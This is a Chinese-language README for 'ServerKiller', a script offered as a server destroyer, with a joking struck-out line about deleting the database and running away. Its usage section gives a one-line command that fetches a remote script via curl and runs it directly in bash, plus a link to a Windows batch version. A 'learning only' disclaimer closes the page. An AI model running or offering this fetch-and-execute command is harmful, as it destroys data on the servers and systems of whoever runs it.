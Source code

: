 # ServerKiller

> 一个服务器杀手脚本，支持各种系统使用。

[中文文档](#ServerKiller) | [英文文档](#)

## 介绍

~~这个脚本的旨在提供一种安全的删库跑路方式。~~

## 如何使用

### Linux 版 

```shell
bash <(curl -s -L https://git.io/ServerKiller.sh)
```

### Windows 版

先将 `ServerKiller.bat` 下载好，然后在下载目录执行

```shell
.\Serverkiller.sh
```

下载地址：<https://git.io/ServerKiller.bat>

## 兼容性列表

### Windows 版

正在测试...

### Linux 版

+ Ubuntu 18.04
+ CentOS 7.7

## 说明

本脚本仅供学习交流使用，请勿在**生产环境**运行此脚本！由此产生的**一切**后果由使用者承担，与脚本作者**无关**。
